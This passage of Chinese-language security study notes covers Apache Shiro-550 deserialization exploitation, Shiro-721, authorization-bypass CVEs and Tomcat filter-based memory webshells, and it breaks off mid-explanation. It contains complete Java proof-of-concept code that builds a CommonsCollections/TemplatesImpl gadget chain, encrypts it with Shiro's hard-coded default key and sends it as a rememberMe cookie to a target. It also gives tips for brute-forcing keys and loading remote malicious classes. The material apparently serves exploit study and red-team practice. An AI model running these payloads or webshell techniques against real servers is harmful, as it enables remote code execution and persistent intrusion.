            import org.apache.commons.collections.functors.ConstantTransformer;
            import org.apache.commons.collections.functors.InvokerTransformer;
            import org.apache.commons.collections.keyvalue.TiedMapEntry;
            import org.apache.commons.collections.map.LazyMap;
            import org.apache.shiro.crypto.AesCipherService;
            import org.apache.shiro.util.ByteSource;
            
            import java.io.BufferedReader;
            import java.io.ByteArrayOutputStream;
            import java.io.InputStreamReader;
            import java.io.ObjectOutputStream;
            import java.lang.reflect.Field;
            import java.net.HttpURLConnection;
            import java.net.URL;
            import java.util.HashMap;
            import java.util.List;
            import java.util.Map;
            
            
            class CommonsCollections6 {
                public byte[] getPayload(String command) throws Exception {
                    Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
                    Transformer[] transformers = new Transformer[]{
                            new ConstantTransformer(Runtime.class),
                            new InvokerTransformer("getMethod", new Class[]{String.class,
                                    Class[].class}, new Object[]{"getRuntime",
                                    new Class[0]}),
                            new InvokerTransformer("invoke", new Class[]{Object.class,
                                    Object[].class}, new Object[]{null, new Object[0]}),
                            new InvokerTransformer("exec", new Class[]{String.class},
                                    new String[]{command}),
                            new ConstantTransformer(1),
                    };
                    Transformer transformerChain = new ChainedTransformer(fakeTransformers);
            
                    // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
                    Map innerMap = new HashMap();
                    Map outerMap = LazyMap.decorate(innerMap, transformerChain);
            
                    TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
            
                    Map expMap = new HashMap();
                    expMap.put(tme, "valuevalue");
            
                    outerMap.remove("keykey");
            
                    Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
                    f.setAccessible(true);
                    f.set(transformerChain, transformers);
            
                    ByteArrayOutputStream barr = new ByteArrayOutputStream();
                    ObjectOutputStream oos = new ObjectOutputStream(barr);
                    oos.writeObject(expMap);
                    oos.close();
            
                    return barr.toByteArray();
                }
            }
            
            public class Shiro550 {
                public static void main(String []args) throws Exception {
                    byte[] payloads = new CommonsCollections6().getPayload("calc.exe");
                    AesCipherService aes = new AesCipherService();
                    byte[] key =
                            java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
                    ByteSource ciphertext = aes.encrypt(payloads, key);
                    System.out.printf(ciphertext.toString());
            
            
            
                    //发送攻击请求
                    URL url = new URL("http://localhost:8080/shirodemo_war_exploded/");
                    //得到连接对象
                    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
            
                    // 设置通用的请求属性
                    connection.setRequestProperty("accept", "*/*");
                    connection.setRequestProperty("connection", "Keep-Alive");
                    connection.setRequestProperty("user-agent",
                            "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1;SV1)");
                    //设置cookie
                    connection.setRequestProperty("cookie","rememberMe="+ciphertext.toString());
                    // 建立实际的连接
                    connection.connect();
                    // 获取所有响应头字段
                    Map<String, List<String>> map = connection.getHeaderFields();
                    // 遍历所有的响应头字段
                    for (String k : map.keySet()) {
                        System.out.println(k + "--->" + map.get(k));
                    }
                    String result = "";
                    BufferedReader in = null;
                    // 定义 BufferedReader输入流来读取URL的响应
                    in = new BufferedReader(new InputStreamReader(
                            connection.getInputStream()));
                    String line;
                    while ((line = in.readLine()) != null) {
                        result += line;
                    }
                    try {
                        if (in != null) {
                            in.close();
                        }
                    } catch (Exception e2) {
                        e2.printStackTrace();
                    }
                    System.out.println(result);
            
                }
            
            }
            ```

- 直接将这段字符串作为rememberMe的值（不做url编码），发送给shiro。结果并没有像我想的那样弹 出计算器，而是Tomcat出现了报错：

    - ```cmd
        org.apache.shiro.io.SerializationException: Unable to deserialze argument byte array.
        	at org.apache.shiro.io.DefaultSerializer.deserialize(DefaultSerializer.java:82)
        	at org.apache.shiro.mgt.AbstractRememberMeManager.deserialize(AbstractRememberMeManager.java:514)
        	at org.apache.shiro.mgt.AbstractRememberMeManager.convertBytesToPrincipals(AbstractRememberMeManager.java:431)
        	at 
            ....................................................
        ```

- 这是为什么？

    - 我们找到异常信息的倒数第一行，也就是这个类： `org.apache.shiro.io.ClassResolvingObjectInputStream` 。可以看到，这是一个 ObjectInputStream的子类，其重写了 resolveClass 方法：

    - ```java
        //
        // Source code recreated from a .class file by IntelliJ IDEA
        // (powered by FernFlower decompiler)
        //
        
        package org.apache.shiro.io;
        
        import java.io.IOException;
        import java.io.InputStream;
        import java.io.ObjectInputStream;
        import java.io.ObjectStreamClass;
        import org.apache.shiro.util.ClassUtils;
        import org.apache.shiro.util.UnknownClassException;
        
        public class ClassResolvingObjectInputStream extends ObjectInputStream {
            public ClassResolvingObjectInputStream(InputStream inputStream) throws IOException {
                super(inputStream);
            }
        
            protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
                try {
                    return ClassUtils.forName(osc.getName());
                } catch (UnknownClassException var3) {
                    throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", var3);
                }
            }
        }
        
        ```

    - resolveClass 是反序列化中用来查找类的方法，简单来说，读取序列化流的时候，读到一个字符串形 式的类名，需要通过这个方法来找到对应的 java.lang.Class 对象。

    - 对比一下它的父类，也就是正常的 ObjectInputStream 类中的 resolveClass 方法：

        - ```java
                protected Class<?> resolveClass(ObjectStreamClass desc)
                    throws IOException, ClassNotFoundException
                {
                    String name = desc.getName();
                    try {
                        return Class.forName(name, false, latestUserDefinedLoader());
                    } catch (ClassNotFoundException ex) {
                        Class<?> cl = primClasses.get(name);
                        if (cl != null) {
                            return cl;
                        } else {
                            throw ex;
                        }
                    }
                }
            ```

    - 区别就是前者用的是 `org.apache.shiro.util.ClassUtils#forName` （实际上内部用到了 `org.apache.catalina.loader.ParallelWebappClassLoader#loadClass` ），而后者用的是Java原 生的 Class.forName 。

    - 那么，我们在异常捕捉的位置下个断点，看看是哪个类触发了异常：

    - 可见，出异常时加载的类名为 [Lorg.apache.commons.collections.Transformer; 。这个类名看起来 怪，其实就是表示 org.apache.commons.collections.Transformer 的数组。 

    - 所以，网上很多文章就给出结论， Class.forName 支持加载数组，而 ClassLoader.loadClass 不支持 加载数组，这个区别导致了问题。 但是经过我的调试发现，事情的原因没有那么简单，中间涉及到大量Tomcat对类加载的处理逻辑，这个分析过程远远无法在本文说清楚，大家可以阅读这两篇文章，并自己亲自调试一下，也许能更深入的了 解这个问题：

        -  https://blog.zsxsoft.com/post/35
        -  http://www.rai4over.cn/2020/Shiro-1-2-4-RememberMe%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-CVE-2016-4437/

    -  **这里仅给出最后的结论：如果反序列化流中包含非Java自身的数组，则会出现无法加载类的错误。这就 解释了为什么CommonsCollections6无法利用了，因为其中用到了Transformer数组。**

- **构造不含数组的反序列化Gadget**

    - 为解决这个问题，Orange在其文章中给出了使用JRMP的利用方法：http://blog.orange.tw/2018/03/p wn-ctf-platform-with-java-jrmp-gadget.html。《Java安全漫谈》还没有讲到JRMP，且JRMP需要使用 外连服务器，利用起来会受到限制，我们能不能想想其他方法呢？ 

    - 本文最先说到的 TemplatesImpl 就要粉墨登场啦。我们在文章13中介绍了 TemplatesImpl ，我们可以 通过下面这几行代码来执行一段Java的字节码：

        - ```java
            TemplatesImpl obj = new TemplatesImpl();
            setFieldValue(obj, "_bytecodes", new byte[][] {"...bytescode"});
            setFieldValue(obj, "_name", "HelloTemplatesImpl");
            setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
            obj.newTransformer();
            ```

    - 而在文章14中我们介绍了，利用 InvokerTransformer 调用 TemplatesImpl#newTransformer 方法：

        - ```java
            Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(obj),
            new InvokerTransformer("newTransformer", null, null)
            };
            ```

    - 不过，这里仍然用到了Transformer数组，不符合条件。 如何去除这一过程中的Transformer数组呢（只保留一个transformer呢）？

        - wh1t3p1g在[这篇文章](https://www.anquanke.com/post/id/192619)里给出了一个行之有效的方法。 回顾一下，在CommonsCollections6中，我们用到了一个类， TiedMapEntry ，其构造函数接受两个参 数，参数1是一个Map，参数2是一个对象key。 TiedMapEntry 类有个 getValue 方法，调用了map的 get方法，并传入key：

            - ```java
                public Object getValue() {
                	return map.get(key);
                }
                
                ```

        - 当这个map是LazyMap时，其get方法就是触发transform的关键点：

            - ```java
                public Object get(Object key) {
                // create value for key if key is not currently in the map
                if (map.containsKey(key) == false) {
                    Object value = factory.transform(key);
                    map.put(key, value);
                    return value;
                }
                	return map.get(key);
                }
                
                ```

    - 我们以往构造CommonsCollections Gadget的时候，对 LazyMap#get 方法的参数key是不关心的，因为 通常Transformer数组的首个对象是ConstantTransformer，我们通过ConstantTransformer来初始化 恶意对象。 但是此时我们无法使用Transformer数组了，也就不能再用ConstantTransformer了。此时我们却惊奇 的发现，这个 LazyMap#get 的参数key，会被传进transform()，实际上它可以扮演 ConstantTransformer的角色——一个简单的对象传递者。 那么我们再回看前面的Transform数组：

    - ```java
        Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(obj),
        new InvokerTransformer("newTransformer", null, null)
        };
        ```

    - new ConstantTransformer(obj) 这一步完全是可以去除了，数组长度变成1，那么数组也就不需要 了。 这个过程其实挺巧的，而且和前面几篇文章中的知识紧密结合。如果你发现这一节有点难懂，那么一定 是没有理解Transform数组运行的原理，和CommonsCollections6的原理，回去再看看就好了。 利用这个方法，我们来改造一下CommonsCollections6吧。

- poc

    - ```java
        package cc;
        
        import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
        import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
        import org.apache.commons.collections.Transformer;
        import org.apache.commons.collections.functors.ChainedTransformer;
        import org.apache.commons.collections.functors.ConstantTransformer;
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.keyvalue.TiedMapEntry;
        import org.apache.commons.collections.map.LazyMap;
        import org.apache.shiro.crypto.AesCipherService;
        import org.apache.shiro.util.ByteSource;
        
        import javax.xml.transform.Templates;
        import java.io.*;
        import java.lang.reflect.Field;
        import java.net.HttpURLConnection;
        import java.net.URL;
        import java.util.HashMap;
        import java.util.List;
        import java.util.Map;
        
        
        import static cc.CC3.setFieldValue;
        
        import javassist.ClassPool;
        import javassist.CtClass;
        class CommonsCollections6 {
            public byte[] getPayload() throws Exception {
        
                
        
                TemplatesImpl obj = new TemplatesImpl();
                setFieldValue(obj, "_bytecodes", new byte[][]{});
                setFieldValue(obj, "_name", "HelloTemplatesImpl");
                setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        
                Transformer transformer = new InvokerTransformer("getClass", null, null);
        
                Map innerMap = new HashMap();
                Map outerMap = LazyMap.decorate(innerMap, transformer);
        
                TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
        
                Map expMap = new HashMap();
                expMap.put(tme, "valuevalue");
        
                outerMap.clear();
                setFieldValue(transformer, "iMethodName", "newTransformer");
        
                // ==================
                // 生成序列化字符串
                ByteArrayOutputStream barr = new ByteArrayOutputStream();
                ObjectOutputStream oos = new ObjectOutputStream(barr);
                oos.writeObject(expMap);
                oos.close();
        
                return barr.toByteArray();
            }
        }
        
        public class Shiro550 {
            public static void main(String []args) throws Exception {
                byte[] payloads = new CommonsCollections6().getPayload();
                AesCipherService aes = new AesCipherService();
        
                byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
                ByteSource ciphertext = aes.encrypt(payloads, key);
                System.out.printf(ciphertext.toString());
        
        
        
                //发送攻击请求
                URL url = new URL("http://localhost:8080/shirodemo_war_exploded/");
                //得到连接对象
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
        
                // 设置通用的请求属性
                connection.setRequestProperty("accept", "*/*");
                connection.setRequestProperty("connection", "Keep-Alive");
                connection.setRequestProperty("user-agent",
                        "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1;SV1)");
                //设置cookie
                connection.setRequestProperty("cookie","rememberMe="+ciphertext.toString());
                // 建立实际的连接
                connection.connect();
                // 获取所有响应头字段
                Map<String, List<String>> map = connection.getHeaderFields();
                // 遍历所有的响应头字段
                for (String k : map.keySet()) {
                    System.out.println(k + "--->" + map.get(k));
                }
                String result = "";
                BufferedReader in = null;
                // 定义 BufferedReader输入流来读取URL的响应
                in = new BufferedReader(new InputStreamReader(
                        connection.getInputStream()));
                String line;
                while ((line = in.readLine()) != null) {
                    result += line;
                }
                try {
                    if (in != null) {
                        in.close();
                    }
                } catch (Exception e2) {
                    e2.printStackTrace();
                }
                System.out.println(result);
        
            }
        
        }
        ```

    -  弹出两次计算器

- 注意：

    - Shiro不是遇到Tomcat就一定会有数组这个问题 
    - Shiro-550的修复并不意味着反序列化漏洞的修复，只是默认Key被移除

漏洞修复：

- HW时可能需要暂时修改key，防止当前点被友商攻击，那可以通过反射，修改DEFAULT CIPHER KEY的值，，由于当前DEFAULT CIPHER KEY的值存于JVM方法区，当站点重启时，又会重新加载类，JVM中的key就会恢复，所以这种方式修改是暂时的
- 想永久的修改key，可以修改或设置Shiro的配置文件
- **shiro官方在1.2.4版本之后，改成了随机生成key，但是也可以自己设置key。**
- 在 Shiro 1.2.4 及之前的 版本，Shiro 秘钥是硬编码的⼀个值 `kPH+bIxk5D2deZiIxcaaaA==` ，这便是 Shiro550 的漏洞成因。**但这个漏洞不只存在于 1.2.4 版本，**后续版本的读取流程没有什么改动。这就意味着只要秘钥泄露，依然存在⾼危⻛险。**有趣的是，国内不少程序员习惯性 的 copy/paste，⼀些 Github 示例代码被直接复制到了项⽬中，这些示例中设置秘钥 的代码也可能被⼀并带到项⽬中，这就给了安全⼈员可乘之机，后来出现的 Shiro Top 100 Key 便是基于此原理收集**的，这⼤概也是该漏洞经久不衰的⼀个侧⾯因素吧。

##### shiro的自动化检测

> https://github.com/SummerSec/ShiroAttack2   shiro的利用工具，非常全面，可以学习是怎么构建poc的
>
> 来源Koalr师傅

- 探测是否存在shiro框架，输入错误的cookie会返回deleteMe字段。比如输入 **rememberMe=1** ，然后再来看 **response** 的 **set-cookie** 是否出现的 **rememberMe=deleteMe** 。

- 爆破密钥：

    - > https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

    - 使⽤⼀个空的 `SimplePrincipalCollection` 作为 payload，序列化后使⽤待 检测的秘钥进⾏加密并发送，秘钥正确和错误的响应表现是不⼀样的，可以使⽤这 个⽅法来可靠的枚举 Shiro 当前使⽤的秘钥。

    - 另外有个⼩插曲是，有的⽹站没法根据是否存在 deleteMe 来判断，⽽是需要根据 deleteMe 的数量来判断，举个例⼦，如果秘钥错误，返回的是两个 deleteMe ，反之返回的是⼀个 deleteMe 。

- 借助这种⽅法，我们就可以将 Shiro 的检测拆为两步 
    1.  探测 Shiro Key，如果探测成功，则报出秘钥可被枚举的漏洞；如果探测失败直 接结束逻辑 
    2.  利⽤上⼀步获得的 Shiro Key，尝试 Tomcat 回显或者dnslog

- 由于第⼀步的检测依靠的是 Shiro 本身的代码逻辑，可以完全不受环境的影响，只要目标使⽤的秘钥在我们待枚举的列表⾥，那么就⾄少可以把 Key 枚举出来，这就很大的提⾼了漏洞检测的下限。

- poc利用链收集

    - cc6的source（lazymap）+cc3的sink（TemplatesTmpl ）
    - cb链

- 还要思考一些问题

    - 如何判断⽬标是 Shiro 的站点，Nginx 反代动静分离的站点⼜该怎么识别？
    -  如何避免 Java 依赖⽽纯粹使⽤其他语⾔实现？
    -  如何避免 Payload 太⻓以致超过 Tomcat Header 的⼤⼩限制？ 
    - 如何使 Payload 兼容 JDK6 的环境？ 
    - CommonsBeanutils 中有个类的 serialVersionUID 没设置会对 gadget 有什 么影响？ 
    - 如何识别并处理 Cookie key 不是 rememberMe 的情况？

##### 实战小技巧

- 实战中，网站可能会有任意文件读取漏洞，而且刚好用了shiro
    那就可以通过任意文件读取，读取ShiroKey，然后通过shiro反序列化，获得主机权限
    路径一般是网站目录下的/WEB-INF/classes/spring-shrio.xml或spring-context-shiro.xml等
- poc长度太长了，cookie里面放不下
    - 解决方法
        1. 先构造个payload，通过反射修改org.apache.coyote.http11.AbstractHttp11Protocol的maxHeaderSize的大小，把这个值改大一点
        2. 使用CloassLoader，加载远程恶意类（需要机器出网，不出网的话，可以配合本地文件上传，例如上传头像之类的）
        3. 使用body传递字节码，加载body中的class

##### Shiro-721(CVE-2019-12422)

- **影响版本**：1.2.5 <= Apache Shiro < 1.4.2
- 攻击要求：

  - （需要一个合法的登录账号，基于Padding Oracle attack来实现的攻击）
  - 这玩意要一直爆破，对网站大概要爆破几个小时，没啥实际用途。
- 漏洞指纹

  1.set-Cookie: rememberMe=deleteMe
  2.URL中有shiro字样
  3.有一些时候服务器不会主动返回 rememberMe=deleteMe, 直接发包即可

- 官方修复

    - 在1.4.2版本后，shiro 721 漏洞爆出来之后 shiro 决定在 1.50 把默认的加密模式 CBC 改成了更安 全的 GCM，来修复这个问题 也就是说 2020 年 1 月 21 号之后的版本加密模式都改为了 AES/GCM/NoPadding。


#### shiro权限绕过(不是反序列化漏洞)

##### 基础

- 绕过 Apache Shiro 对 Spring Boot 中的 Servlet 的权限控制，越权并实现未授权访问。

- | CVE编号        | Shiro可利⽤版本 | 核心利⽤点          |
    | -------------- | --------------- | ------------------- |
    | ⽆             | Shiro < 1.5.0   | 尾斜杠              |
    | CVE-2020-1957  | Shiro < 1.5.2   | 分号截断            |
    | CVE-2020-11989 | Shiro < 1.5.3   | ContextPath分号截断 |
    | CVE-2020-13933 | Shiro < 1.6.0   | Urldecode顺序不同   |

- 其中CVE-2020-11989与CVE-2020-13933均有⼀定的利⽤条件，⽐如设置ContextPath、设置路由 处理⽅式等

##### Shiro < 1.5.0

##### 权限绕过漏洞（CVE-2020-1957）

##### CVE-2020-11989

##### CVE-2020-13933

## 内存马

> https://www.anquanke.com/post/id/266240
>
> java web基础

为什么会使用内存马？

- 传统Webshell连接方式，都是先通过某种漏洞将恶意的脚本木马文件上传，然后通过中国菜刀，或者蚁剑，冰蝎等Webshell管理软件进行链接。
- 这种方式目前仍然流行，但是由于近几年防火墙，IDS，IPS，流量分析等各种安全设备的普及和更新，这种连接方式非常容易被设备捕获拦截，而且由于文件是明文存放在服务器端，所以又很容易被杀毒软件所查杀。在今天看来这种传统连接方式显然已经过时，于是乎，进化了一系列的加密一句话木马，但是这种方式还是不能绕过有类似文件监控的杀毒软件，于是乎进化了新一代的Webshell---》内存马

什么是内存马

- 内存马是无文件Webshell，什么是无文件webshell呢？
    - 简单来说，就是服务器上不会存在需要链接的webshell脚本文件。
- 那有的同学可能会问了？这种方式为什么能链接呢？
    - 内存马的原理就像是MVC架构，即通过路由访问控制器，我通过自身的理解，概述的说一下， **内存马的原理就是在web组件或者应用程序中，注册一层访问路由，访问者通过这层路由，来执行我们控制器中的代码**

如何实现webshell内存马

- 目标：访问任意url或者指定url，带上命令执行参数，即可让服务器返回命令执行结果
- 实现：以java为例，客户端发起的web请求会依次经过Listener、Filter、Servlet三个组件，我们只要在这个请求的过程中做手脚，在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode，就可以达到我们的目的。
- 

### 内存马类型

根据内存马注入的方式，大致可以将内存马划分为如下两类

1. servlet-api型
    - 通过命令执行等方式动态注册一个新的listener、filter或者servlet，从而实现命令执行等功能。特定框架、容器的内存马原理与此类似，如spring的controller内存马，tomcat的valve内存马

2. 字节码增强型: Java Agent内存马。
    - 通过java的instrumentation动态修改已有代码，进而实现命令执行等功能。

在特定框架里，如Spring/Struts2等框架，按照位置分类可以有

- interceptor型
- controller型

同时，针对不同的中间件还有不同的类型

- Tomcat的Pipeline&Valve
- Grizzly的FilterChain&Filter等等

内存马注入点：

- jsp注入
- 代码执行漏洞注入

### tomcat基础


Tomcat是一个Servlet容器，其中包括了Container、Engine、Host、Context、Wrapper等模块功能。

**Server**：表示整个 Tomcat Catalina servlet 容器，Server 中可以有多个 Service。tomcat 默认的 Service 服务是 Catalina。

- **Service：**

    - 表示Connector和Engine的组合，对外提供服务，Service可以包含多个Connector和一个Engine。

    - Connector：

        - 为Tomcat Engine的**连接组件**，支持三种协议：HTTP/1.1、HTTP/2.0、AJP。作。**向外提供端口，从端口中接受数据，并封装成Request对象传递给Container组件。**
        - 连接器与容器之间通过 ServletRequest 和 ServletResponse 对象进行交流。

    - **Container：**

        - 容器（Container）主要包括四种，Engine、Host、Context和Wrapper。也就是这个图中包含的四个子容器。

        - 

        - 由下图可以看出，Container在处理请求时使用的Pipeline管道，Pipeline 是一个很常用的处理模型，和 FilterChain 大同小异，都是责任链模式的实现，Pipeline 内部有多个 Valve，这些 Valve 因栈的特性都有机会处理请求和响应。上层的Valve会调用下层容器管道，一步一步执行到FilterChain过滤链。

        - **Engine：**

            - > 顶级容器，不能被其他容器包含，它接受处理连接器的所有请求，并将响应返回相应的连接器，子容器通常是 Host 或 Context。

            - **Host：**表示一个虚拟主机（表示的就是一个网站了），包含主机名称和IP地址，这里默认是localhost。

                - **Context**：

                    - > - **表示一个 Web 应用程序，是 Servlet、Filter 的父容器。**
                        > - servletContext负责的是servlet运行环境上下信息，不关心session管理，cookie管理，servlet的加载，servlet的选择问题，请求信息，主要负责servlet的管理。
                        > - **StandardContext主要负责管理session，Cookie，Servlet的加载和卸载，负责请求信息的处理，掌握控制权。**
                        > - ServletContext主要是适配Servlet规范（是一个接口），StandardContext是tomcat的一种容器.**Tomcat中的对应的ServletContext实现是ApplicationContext。**

                    - **在Tomcat中对应的ServletContext实现是ApplicationContext**。Tomcat惯用Facade方式，因此在web应用程序中获取到的ServletContext实例实际上是一个ApplicationContextFacade对象，对ApplicationContext实例进行了封装。**而ApplicationContext实例中含有Tomcat的Context容器实例（StandardContext实例，也就是在server.xml中配置的Context节点），以此来获取/操作Tomcat容器内部的一些信息，例如获取/注册servlet等。Filter内存马的实现也是基于此知识点获取到了存储在StandardContext中的filterConfigs HashMap结构。**

                    - **Wrapper：**

                        - 表示一个 Servlet，它负责管理 Servlet 的生命周期，并提供了方便的机制使用拦截器。

- 

- 

### tomcat—Filter内存马

> https://www.freebuf.com/articles/web/274466.html
>
> https://www.cnblogs.com/bmjoker/p/15114884.html

StandardContext：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper.

相关Filter类介绍

- filterDefs：存放FilterDef的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例等基本信息
    - 

- filterConfigs：存放filterConfig的数组，在 FilterConfig 中主要存放 FilterDef 和 Filter对象等信息
    - 

- filterMaps：存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName 和 对应的URLPattern
    - 
- FilterChain：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter
    - 


- 当我们写好filter时候，Tomcat是怎么调用的呢？

    - 根据请求的URL从**FilterMaps**(从 context 中获取的 FilterMaps)中找出与之URL对应的**Filter Def**
    - 根据Filter Def去**FilterConfigs**中寻找对应名称的FilterConfig
    - **找到对应的FilterConfig 之后添加到FilterChain中**，并且返回FilterChain
    - filterChain中调用internalDoFilter遍历获取chain中的FilterConfig，然后从FilterConfig中获取Filter，然后调用Filter的 doFilter方法
    - 

- 创建两个Filte

    ```java
    package com.sec.servlet;
    
    import javax.servlet.*;
    import java.io.IOException;
    
    public class FilterDemo2 implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
            System.out.println("第二个Filter 初始化创建");
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            System.out.println("第二个Filter执行过滤操作");
            filterChain.doFilter(servletRequest,servletResponse);
        }
        @Override
        public void destroy() {
        }
    }
    ```

    ```xml
      <filter>
        <filter-name>filterDemo</filter-name>
        <filter-class>com.sec.servlet.FilterDemo</filter-class>
      </filter>
    
      <filter-mapping>
        <filter-name>filterDemo</filter-name>
        <url-pattern>/*</url-pattern>
      </filter-mapping>
    
      <filter>
        <filter-name>filterDemo2</filter-name>
        <filter-class>com.sec.servlet.FilterDemo2</filter-class>
      </filter>
    
      <filter-mapping>
        <filter-name>filterDemo2</filter-name>
        <url-pattern>/*</url-pattern>
      </filter-mapping>
    ```

    访问主页输出

    ```
    第二个Filter 初始化创建
    第一个Filter 初始化创建
    [2022-04-26 07:44:51,388] 工件 simpleweb:war: 工件已成功部署
    [2022-04-26 07:44:51,388] 工件 simpleweb:war: 部署已花费 853 毫秒
    第一个Filter执行过滤操作
    第二个Filter执行过滤操作
    第一个Filter执行过滤操作
    第二个Filter执行过滤操作
    ```

    Filter的配置在web.xml中，Tomcat会首先通过ContextConfig创建WebXML的实例来解析web.xml

    先来看在StandardWrapperValue.java文件中中利用createFilterChain来创建filterChain

    ```java
    // Create the filter chain for this request
    ApplicationFilterChain filterChain =
    ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
    ```

    跟进createFilterChain方法

    ```java
    // Acquire the filter mappings for this Context
    StandardContext context = (StandardContext) wrapper.getParent();
    FilterMap filterMaps[] = context.findFilterMaps();
    ```

    通过getParent()获取当前的Context，也就是当前的应用，然后从Context中获取filterMaps

    

    然后开始遍历FilterMaps

    ```java
    // Add the relevant path-mapped filters to this filter chain
    for (int i = 0; i < filterMaps.length; i++) {
        if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
        	continue;
        }
        if (!matchFiltersURL(filterMaps[i], requestPath))
        	continue;
        
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
        		context.findFilterConfig(filterMaps[i].getFilterName());
        
        if (filterConfig == null) {
        	// FIXME - log configuration problem
        	continue;
        }
        filterChain.addFilter(filterConfig);
    }
    ```

    如果当前请求的url与FilterMap中的urlPattern匹配，就会调用 findFilterConfig 方法在 filterConfigs 中**寻找对应 filterName名称的 FilterConfig**，然后如果不为null，就进入if循环。**将 filterConfig 添加到 filterChain中**（也就是只要匹配对了url，那么全部加入到chain中,这里是放到filters数组中），跟进addFilter方法。

    ```java
        void addFilter(ApplicationFilterConfig filterConfig) {
    
            //遍历filters数组，去掉重复的过滤器设置
            // Prevent the same filter being added multiple times
            for(ApplicationFilterConfig filter:filters)
                if(filter==filterConfig)
                    return;
    
            if (n == filters.length) {
                ApplicationFilterConfig[] newFilters =
                    new ApplicationFilterConfig[n + INCREMENT];
                System.arraycopy(filters, 0, newFilters, 0, n);
                filters = newFilters;
            }
            //将filterConfig添加到filters中
            filters[n++] = filterConfig;
    
        }
    
    ```

    重复遍历直至将所有的filter全部装载到filterchain中

    重新回到 StandardContextValue 中，调用 filterChain 的 doFilter 方法 ，就会依次调用 Filter 链上的 doFilter方法

    ```java
    try {
    	SystemLogHandler.startCapture();
        if (request.isAsyncDispatching()) {
        	request.getAsyncContextInternal().doInternalDispatch();
        } else {
        	filterChain.doFilter(request.getRequest(),
        	response.getResponse());
    	}
    }
    ```

    跟进doFilter方法，在 doFilter 方法中会调用 internalDoFilter方法

    ```java
    public void doFilter(ServletRequest request, ServletResponse response)
        throws IOException, ServletException {
    
        if( Globals.IS_SECURITY_ENABLED ) {
        } else {
            internalDoFilter(request,response);
        }
    }
    
    ```

    跟进internalDoFilter方法

    ```java
    // Call the next filter if there is one
    if (pos < n) {
        ApplicationFilterConfig filterConfig = filters[pos++];
        try {
            
            
            Filter filter = filterConfig.getFilter();
    
            if (request.isAsyncSupported() && "false".equalsIgnoreCase(
                    filterConfig.getFilterDef().getAsyncSupported())) {
                request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
            }
            if( Globals.IS_SECURITY_ENABLED ) {
                final ServletRequest req = request;
                final ServletResponse res = response;
                Principal principal =
                    ((HttpServletRequest) req).getUserPrincipal();
    
                Object[] args = new Object[]{req, res, this};
                SecurityUtil.doAsPrivilege ("doFilter", filter, classType, args, principal);
            } else {
                           
                filter.doFilter(request, response, this);
    
            }
    
    }
    ```

    发现会依次从 filters 中取出 filterConfig，然后会调用 getFilter() 将 filter 从filterConfig 中取出，调用 filter 的 doFilter方法。从而调用我们自定义过滤器中的 doFilter 方法，从而触发了相应的代码。

    **总结：**

    1. 根据请求的 URL 从 FilterMaps 中找出与之 URL 对应的 Filter 名称
    2. 根据 Filter 名称去 FilterConfigs 中寻找对应名称的 FilterConfig
    3. 找到对应的 FilterConfig 之后添加到 FilterChain中，并且返回 FilterChain
    4. filterChain 中调用 internalDoFilter 遍历获取 chain 中的 FilterConfig ，然后从 FilterConfig 中获取 Filter，然后调用 Filter 的 doFilter 方法

- 根据上面的总结可以发现最开始是从 context 中获取的 FilterMaps

- 将符合条件的依次按照顺序进行调用，那么我们可以将自己创建的一个 FilterMap 然后将其放在 FilterMaps 的最前面，这样当 urlpattern 匹配的时候就回去找到对应 FilterName 的 FilterConfig ，然后添加到 FilterChain 中，最终触发我们的内存shell。

### **动态添加Filter**

可以发现程序在创建过滤器链的时候，如果我们能够修改filterConfigs，filterDefs，filterMaps这三个变量，将我们恶意构造的FilterName以及对应的urlpattern存放到FilterMaps，就可以组装到filterchain里，当访问符合urlpattern的时候，就能达到利用Filter执行内存注入的操作。

- 根据Tomcat注册Filter的操作，可以大概得到如何动态添加一个Filter

    - 获取standardContext
    - 创建一个Filter
    - 使用filterDef封装Filter对象，将filterDef添加到filterDefs和FilterConfig
    - 获取filterConfigs变量，并向其中添加filterConfig对象
    - 创建filterMap，将URL和filter进行绑定，添加到filterMaps中

- 通过分析得到动态添加Filter只需5个步骤，下面笔者将根据Tomcat注册Filter的操作，通过反射操作实现动态添加Filter。

- **1. 获取standardContext**

    - 获取standardContext多种多样，StandardContext主要负责管理session，Cookie，Servlet的加载和卸载。因此在Tomcat中的很多地方都有保存。

    - **在这之前先来说一下****ServletContext(只是一个接口)跟StandardContext的关系：**

        - Tomcat中的对应的ServletContext实现是ApplicationContext。
